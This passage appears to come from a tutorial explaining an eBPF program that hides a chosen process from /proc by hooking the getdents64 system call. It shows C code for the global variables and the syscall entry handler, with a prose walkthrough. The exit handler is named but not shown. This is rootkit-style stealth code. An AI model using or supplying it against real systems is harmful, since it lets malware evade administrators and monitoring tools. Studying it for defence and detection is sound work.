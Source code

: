 In the next part of the code, the program defines a structure called "linux_dirent64", which represents a Linux directory entry. The program then defines two functions, "handle_getdents_enter" and "handle_getdents_exit", which are called at the entry and exit of the getdents64 system call, respectively, and are used to implement operations on the directory entry.

```c

// Optional Target Parent PID
const volatile int target_ppid = 0;

// These store the string represenation
// of the PID to hide. This becomes the name
// of the folder in /proc/
const volatile int pid_to_hide_len = 0;
const volatile char pid_to_hide[max_pid_len];

// struct linux_dirent64 {
//     u64        d_ino;    /* 64-bit inode number */
//     u64        d_off;    /* 64-bit offset to next structure */
//     unsigned short d_reclen; /* Size of this dirent */
//     unsigned char  d_type;   /* File type */
//     char           d_name[]; /* Filename (null-terminated) */ }; 
// int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
SEC("tp/syscalls/sys_enter_getdents64")
int handle_getdents_enter(struct trace_event_raw_sys_enter *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    // Check if we're a process thread of interest
    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }
    int pid = pid_tgid >> 32;
    unsigned int fd = ctx->args[0];
    unsigned int buff_count = ctx->args[2];

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);

    return 0;
}
```

In this section of the code, we can see part of the implementation of the eBPF program that is responsible for the processing at the entry point of the `getdents64` system call.

We start by declaring a few global variables. The `target_ppid` represents the PID of the target parent we want to focus on, and if this value is 0, then we will focus on all processes. `pid_to_hide_len` and `pid_to_hide` are used to store the length of the PID of the process we want to hide from, and the PID itself, respectively. This PID is translated into the name of a folder in the `/proc/` directory, so the hidden process will not be visible in the `/proc/` directory.
